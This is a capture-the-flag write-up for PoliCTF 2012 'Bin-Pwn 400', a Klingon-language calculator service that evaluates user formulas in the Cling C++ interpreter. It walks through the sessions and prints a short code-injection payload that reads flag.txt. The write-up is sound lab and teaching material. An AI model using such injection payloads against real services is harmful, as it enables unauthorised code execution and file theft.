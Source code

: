 ```yaml
---
title: "PoliCTF 2012 - Bin-Pwn 400"
tags:
  - polictf2012
  - writeup
  - pwn
---
```


*Alien Technologies.*

*challenge@alien.challenges.polictf.it:16000*

In this challenge, we had to exploit a binary that was run once a user logged
into the server through SSH. The binary was basically an REPL that communicated
with the user in Klingon to calculate means, variances, and the result of a
custom operation on a list of numbers. It is vulnerable to code injection when a
user supplied formula is run in the C++ interpreter (Cling).

```shell
amon@Alyx:~/stuff$ ssh -p 16000 -i id_rsa challenge@alien.challenges.polictf.it
loS ..........
ghItlh pIqaD (a..y)
a
Hutlh
ghItlh pIqaD (a..y)
b
Hutlh
ghItlh pIqaD (a..y)
c
Qagh ghItlhqa'
d
Qagh ghItlhqa'
quit
Qagh ghItlhqa'
Dor
Connection to alien.challenges.polictf.it closed.
amon@Alyx:~/stuff$
```

The first step was to identify the language in which the text was relayed. It
was found that the above was Klingon. So let's translate a few phrases:

- loS - wait
- ghItlh pIqaD (a..y) - write Klingon (a..y)
- Hutlh - lack
- Dor - to end
- Qagh ghItlhqa' - mistake write again (qa' suffix affects re-doing)

Now, the (a..y) implies that we should try the Klingon alphabet from the a
symbol to y symbol. So we obtained a copy of that:

`a, b, ch, D, e, gh, H, I, j, l, m, n, ng, o, p, q, Q, r, S, t, tlh, u, v, w, y`

Trying every letter:

```shell
...
ch
ghItlh teywI' pong (main.cpp, ...)
...
gh
ghItlh De'
...
ng
ghItlh Qap
...
tlh
ghItlh Qap (0..3)
...
```

Translating this:

- ghItlh teywI' pong - write file name
- ghItlh De' - write it
- ghItlh Qap - write function

Sweet, looks like we can dump the source to the main.cpp, probably for the
program, using the Klingon letter 'ch'. Now, if we look in main.cpp, we can see
an include for prompt.h, and from there we may discover data.h. There must be a
file implementing prompt.h too though, so prompt.cpp exists as well.

Here are the source files that are exposed:

1. main.cpp
2. prompt.h
3. prompt.cpp
4. data.h
5. From prompt.cpp, we can observe that the 'ch', 'gh', 'ng', and 'tlh' commands
   are mapped to functions which take input from the user:

- 'ch' - dumps files, (only main.cpp, prompt.h, prompt.cpp, data.h, and not
  flag.txt)
- 'gh' - adds a number to a list
- 'ng' - replaces the third operation with a custom operator of your own
- 'tlh' - calculates the mean, and variance of the data in the list and
calculates the result of the operation presupplied by the system or provided by
the user

At this point, we can hypothesize that perhaps, arbitrary code can be injected
through the custom operation definition ('ng') and executed through the use of
'tlh'.

```c++
Prompt()
{
    op[0]="result=mean+variance";
    op[1]="result=mean+2*variance";
    op[2]="result=mean+3*variance";
    op[3]=";";
}
```

Operations are in the form 'result=(operations)' which make use of variables
'mean' and 'variance'. Since C++ is a statically typed language, we can assume
result is a float.

```c++
if(values.size()<2)
{
    cout<<"Qagh"<<endl;
    return;
}]
```

Now, we also can see that the list is required to contain, at minimum, 2 items.

Let's test it out.

```shell
loS ..........
ghItlh pIqaD (a..y)
gh
ghItlh De'
1
ghItlh pIqaD (a..y)
gh
ghItlh De'
2
ghItlh pIqaD (a..y)
ng
ghItlh Qap
result=1337
ghItlh pIqaD (a..y)
tlh
ghItlh Qap (0..3)
3
1.5 0.5 1337
ghItlh pIqaD (a..y)
```

Awesome, now let's test if it's simply evaluating only numbers or we may perform
our own arbitrary code.

```shell
loS ..........
ghItlh pIqaD (a..y)
gh
ghItlh De'
1
ghItlh pIqaD (a..y)
gh
ghItlh De'
2
ghItlh pIqaD (a..y)
ng
ghItlh Qap
result=0; cout << "hacked";
ghItlh pIqaD (a..y)
tlh
ghItlh Qap (0..3)
3
hacked1.5 0.5 0
ghItlh pIqaD (a..y)
```

Great, now all we have to do is read the file and print it to stdout. There is a
constraint on our payload though.

```c++
if(check(newop) || newop.length()>80) cout<<"Qagh"<<endl;
```

It has to be 80 characters or less, so we came up with the following:

```c++
result=0;string l;ifstream f ("flag.txt");while(getline(f, l)) cout<<l<<"n";
```

Performing the attack:

```shell
ghItlh pIqaD (a..y)
gh
ghItlh De'
1
ghItlh pIqaD (a..y)
gh
ghItlh De'
2
ghItlh pIqaD (a..y)
ng
ghItlh Qap
result=0;string l;ifstream f ("flag.txt");while(getline(f, l)) cout<<l<<"n";
ghItlh pIqaD (a..y)
tlh
ghItlh Qap (0..3)
3
Well done, you found the flag:

jbvenvinvpek2envi2n

This challenge is powered by cling: http://root.cern.ch/drupal/content/cling
1.5 0.5 0
ghItlh pIqaD (a..y)
```

And we have our flag. Seriously cool challenge, no?

Flag: **jbvenvinvpek2envi2n**
